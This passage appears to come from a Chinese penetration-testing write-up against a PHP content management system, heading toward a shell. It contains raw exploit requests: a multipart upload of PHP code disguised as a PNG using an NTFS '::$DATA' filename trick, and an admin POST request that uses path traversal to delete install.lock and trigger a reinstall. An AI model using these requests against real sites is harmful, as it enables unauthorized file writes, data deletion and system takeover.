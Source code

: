 ```
  
3  
------WebKitFormBoundaryP7jKNcoemK2sybZb  
Content-Disposition: form-data; name=&#34;site_logo&#34;; filename=&#34;1.php::$DATA&#34;  
Content-Type: image/png  
  
<?php  
phpinfo();  
?>  
------WebKitFormBoundaryP7jKNcoemK2sybZb--  


```

  
成功上传文件是一大进展，但若上传需要后台登录，则需要先获取登录凭据。既然爆破未能成功获取账号密码，那我们需要寻找其他方式。你提到程序有一个
```
install
```

文件，通常安装后会创建一个文件来标识程序已被安装。因此，查看这个文件的存在与否是个不错的思路。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57giamOreCedpdSTQUzID5iaDTskxt0Qgxu67Fo4IMR7D5sKTqUFh9a3TG2vaCobAzY1RIVZUeViaboA/640?wx_fmt=png "")  
  
进行重装，我们就可以利用之前发现的任意文件删除漏洞来删除
```
install.lock
```

文件，从而触发系统重装流程。但在执行这个操作之前，我们需要小心谨慎地构造POST请求，确保不会对程序造成意外破坏。  
  
让我们继续谨慎地进行操作，确保我们的行为不会对系统造成不可逆的影响。  
## 3、利用漏洞拿到shell  
  
删除  
```
install.lock
```

 文件的数据包：  

```
POST /index.php/admin/system.System_Upgradeclient/setcopydel HTTP/1.1  
Host: www.xxx.wang  
Content-Length: 26  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
Origin: http://www.xxx.wang  
Content-Type: application/x-www-form-urlencoded  
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
Referer: http://www.xxx.wang/index.php/admin/system.System_Upgradeclient/setcopydel  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=8itmp7itfo1va6uu7bu0ouhgos  
Connection: close  
  
id=/../install/install.lock&ids=1  


```
